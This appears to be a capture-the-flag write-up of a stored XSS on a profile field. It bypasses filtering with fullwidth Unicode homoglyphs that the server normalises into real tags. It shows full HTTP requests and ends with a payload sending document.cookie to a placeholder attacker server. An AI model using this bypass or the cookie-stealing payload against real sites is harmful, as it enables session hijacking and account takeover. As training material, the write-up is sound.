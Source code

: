 ```html
<label for="aboutme" class="col-sm-2 form-label">About me</label>
<div class="col-sm-10">
  <input type="text" name="aboutme" class="form-control" id="aboutme" value="test">
</div>
```

I used a [homoglyph attack generator](https://www.irongeek.com/homoglyph-attack-generator.php) to generate a test payload of `"><script>alert(1)</script>` that used normalized equivalent characters for the `<` and `>` symbols. I also used a different character for the `s` since their site also blocks the string `script`. This gives us: `"＞＜Ｓcript＞alert(1)＜/Ｓcript＞`.

After url encoding:
```http
POST /profile/5619 HTTP/2
Host: web-chainreaction-a4b5ae3b.chal-2021.duc.tf
Cookie: session=.eJwlzjsOwjAMANC7ZGaI7TiJe5nK8UdlbemEuDtIvBO8d9nzjOso2-u841H2p5etWDiSLx1kwZSYwyBNCUNoqaH31kdIeOdISp2rBtbE1kgFbJAu1FadY4nYVETjWknnTJQBQeBg1Nlg8eQknNK4Wm1qQoaj_CL3Fed_wx2kfL7grjCG.YVG6ZQ.Qb_SzTdB-r2q-f6x8CN4tEF-m2Y

username=bobbytables&aboutme=%22%EF%BC%9E%EF%BC%9C%EF%BC%B3cript%EF%BC%9Ealert(1)%EF%BC%9C/%EF%BC%B3cript%EF%BC%9E
```

Now, the page renders like:
```html
<label for="aboutme" class="col-sm-2 form-label">About me</label>
<div class="col-sm-10">
    <input type="text" name="aboutme" class="form-control" id="aboutme" value=""><Script>alert(1)</Script>">
</div>
```
Notice how our unicode symbols were not stripped out by the filter, and that their server has normalized them into the regular symbols that the browser will read as instructions.

Now we get the popup when going to our profile:

<img src="images/alert.png"></img>

Now we can try again with a payload to steal the admin cookies: 

`"＞＜Ｓcript＞var i = new Image;i.src="https://[my-server-url]?"+document.cookie＜/Ｓcript＞`

Request:

```http
POST /profile/5619 HTTP/2
Host: web-chainreaction-a4b5ae3b.chal-2021.duc.tf
Cookie: session=.eJwlzjsOwjAMANC7ZGaI7TiJe5nK8UdlbemEuDtIvBO8d9nzjOso2-u841H2p5etWDiSLx1kwZSYwyBNCUNoqaH31kdIeOdISp2rBtbE1kgFbJAu1FadY4nYVETjWknnTJQBQeBg1Nlg8eQknNK4Wm1qQoaj_CL3Fed_wx2kfL7grjCG.YVG6ZQ.Qb_SzTdB-r2q-f6x8CN4tEF-m2Y

username=bobbytables&aboutme=%22%EF%BC%9E%EF%BC%9C%EF%BC%B3cript%EF%BC%9Evar%20i%20=%20new%20Image;i.src=%22https://[my-server-url]?%22%2bdocument.cookie%EF%BC%9C/%EF%BC%B3cript%EF%BC%9E
```
